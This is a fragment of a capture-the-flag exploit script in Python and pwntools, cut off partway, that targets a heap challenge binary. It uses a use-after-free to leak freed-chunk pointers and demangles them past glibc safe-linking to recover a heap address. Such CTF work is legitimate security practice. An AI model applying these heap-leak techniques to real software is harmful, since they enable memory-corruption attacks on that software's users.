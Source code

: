 ```python


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def send_flag(secret):
    target.sendlineafter(b": ", b"send_flag")
    target.sendlineafter(b"Secret: ", str(secret).encode())


def quit():
    target.sendlineafter(b": ", b"quit")


def mangle(pos, ptr, shifted=1):
    if shifted:
        return pos ^ ptr
    return (pos >> 12) ^ ptr


def demangle(pos, ptr, shifted=1):
    if shifted:
        return mangle(pos, ptr)
    return mangle(pos, ptr, 0)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    malloc(0, 0)
    malloc(1, 0)
    free(1)
    free(0)

    puts(0)
    target.recvuntil(b"Data: ")
    mangled = int.from_bytes(target.recvline().strip(), "little")

    puts(1)
    target.recvuntil(b"Data: ")
    pos = int.from_bytes(target.recvline().strip(), "little")
    heap = demangle(pos, mangled)
```